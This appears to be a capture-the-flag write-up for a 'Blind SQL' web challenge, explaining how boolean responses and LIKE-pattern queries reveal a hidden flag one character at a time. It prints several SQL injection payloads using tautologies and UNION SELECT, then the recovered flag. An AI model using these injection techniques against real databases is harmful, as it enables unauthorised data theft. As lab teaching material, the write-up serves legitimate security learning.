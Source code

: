 # Blind SQL
Web

## Challenge 

## Hint

## Solution

Now when we input any valid payload, we get the text `Wakanda` if there are results. We cannot see the results (blind).

From the previous challenge, we had this payload which produces `Wakanda`

> 2' or 1=1 UNION SELECT flag, NULL FROM flag;--

---

And if we put a payload that produces no results it will produce a blank line.

> 2' and 0=1;--

---

This also produces a blank line because the condition is not fulfilled.

> 2' and 0=1 UNION SELECT flag, NULL FROM flag WHERE 0=1;--

---

So we can use the LIKE clause to bruteforce

> 2' and 0=1 UNION SELECT flag, NULL FROM flag WHERE flag LIKE 'HATS{%';--

W
> 2' and 0=1 UNION SELECT flag, NULL FROM flag;--

If we were to bruteforce query each char of the flag, we can extract out the flag.

> 2' or 1=1 UNION SELECT flag, NULL FROM flag    WHERE flag LIKE 'HATS{%';--

And writing a script, we extract out each char

Success: HATS{you_dont_need_me_but_i_need_you_web_you_are_my_my_my_my_my_my_my_lover_yeet_ [81]

## Flag

	HATS{you_dont_need_me_but_i_need_you_web_you_are_my_my_my_my_my_my_my_lover_yeet}
